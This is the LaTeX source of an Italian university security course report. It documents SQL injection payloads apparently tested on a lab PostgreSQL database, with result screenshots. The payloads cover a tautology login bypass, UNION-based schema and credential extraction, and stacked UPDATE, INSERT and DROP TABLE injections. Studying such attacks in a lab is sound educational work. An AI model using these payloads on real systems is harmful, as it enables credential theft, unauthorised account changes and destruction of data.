
\documentclass[a4paper,12pt]{article}
\usepackage[utf8]{inputenc}
\usepackage[italian]{babel}
\usepackage{graphicx}
\usepackage{listings}
\usepackage{xcolor}
\usepackage{geometry}
\geometry{margin=2.5cm}

\title{Relazione Progetto Sicurezza Informatica\\\large SQL Injection}
\author{Andrea Piva}
\date{Anno Accademico 2024/2025}

\definecolor{lightgray}{gray}{0.95}
\lstset{
  backgroundcolor=\color{lightgray},
  basicstyle=\ttfamily,
  frame=single,
  breaklines=true,
  captionpos=b,
  language=PHP,
}

\begin{document}

\maketitle

\section{Tipologie di attacchi testati}

\subsection*{Tautologia}

Una delle tecniche più comuni di SQL Injection consiste nel manipolare la clausola WHERE per renderla sempre vera.  
La seguente iniezione forza la query a restituire tutti gli utenti presenti nel database:

\begin{lstlisting}
' OR '1'='1' -- 
\end{lstlisting}

\begin{figure}[h!]
  \centering
  
\includegraphics[width=0.7\textwidth]{tautologia_output.png}
  \caption{Autenticazione bypassata con tautologia: il sistema mostra tutti gli utenti presenti.}
\end{figure}

\subsection*{Query piggybacked}

Durante il test sono state eseguite query per ottenere informazioni interne al database PostgreSQL. Ecco due esempi:

\begin{itemize}
  \item \textbf{Query 1:}
  \begin{lstlisting}
' UNION SELECT NULL, table_name, NULL FROM information_schema.tables WHERE table_schema='public' -- 
  \end{lstlisting}

  \item \textbf{Query 2:}
  \begin{lstlisting}
' UNION SELECT NULL, column_name, NULL FROM information_schema.columns WHERE table_name='utenti' --
  \end{lstlisting}
\end{itemize}

\begin{figure}[h!]
  \centering
  
\includegraphics[width=0.7\textwidth]{query_tabelle.png}
  \caption{Output della query SQLi che rivela i nomi delle tabelle presenti nello schema pubblico.}
\end{figure}

\vspace{0.5cm}

\begin{figure}[h!]
  \centering
  
\includegraphics[width=0.7\textwidth]{query_colonne.png}
  \caption{Output della query SQLi che rivela i nomi delle colonne della tabella \texttt{utenti}.}
\end{figure}


\begin{lstlisting}
' UNION SELECT NULL, username || ':' || password, NULL FROM utenti -- 
\end{lstlisting}

\begin{figure}[h!]
  \centering
  
\includegraphics[width=0.7\textwidth]{credenziali_estratte.png}
  \caption{Estrazione delle credenziali (username e password) concatenate tramite SQLi.}
\end{figure}



\subsection*{Manipolazione dei dati}

Oltre a leggere informazioni sensibili, è possibile anche modificarle.  
La seguente query SQLi consente di aggiornare la password dell'utente \texttt{admin}:

\begin{lstlisting}
'; UPDATE utenti SET password='hacked' WHERE username='admin'; -- 
\end{lstlisting}

\begin{figure}[h!]
  \centering
  
\includegraphics[width=0.7\textwidth]{prima_update.png}
  \caption{Stato originale della tabella utenti prima dell'attacco.}
\end{figure}

\begin{figure}[h!]
  \centering
  
\includegraphics[width=0.7\textwidth]{dopo_update.png}
  \caption{Tabella utenti dopo l'attacco: la password dell'amministratore è stata modificata.}
\end{figure}



\subsection*{Inserimento di nuovi dati}

Un attaccante può anche aggiungere nuovi utenti al sistema.  
La seguente iniezione SQL consente di inserire un utente denominato \texttt{hacker} con password \texttt{hacked}:

\begin{lstlisting}
'; INSERT INTO utenti (username, password) VALUES ('hacker', 'hacked'); -- 
\end{lstlisting}

\begin{figure}[h!]
  \centering
  
\includegraphics[width=0.7\textwidth]{inserimento_hacker.png}
  \caption{Risultato della SQL Injection: l'attaccante ha inserito un nuovo utente nel database.}
\end{figure}



\subsection*{Eliminazione della tabella}

Una delle conseguenze più gravi di una SQL Injection è la perdita completa dei dati.  
Con la seguente iniezione è possibile eliminare l'intera tabella utenti:

\begin{lstlisting}
'; DROP TABLE utenti; -- 
\end{lstlisting}

\begin{figure}[h!]
  \centering
  
\includegraphics[width=0.7\textwidth]{drop_table.png}
  \caption{Errore del database dopo l'esecuzione di una SQL Injection che ha eliminato la tabella \texttt{utenti}.}
\end{figure}

\end{document}
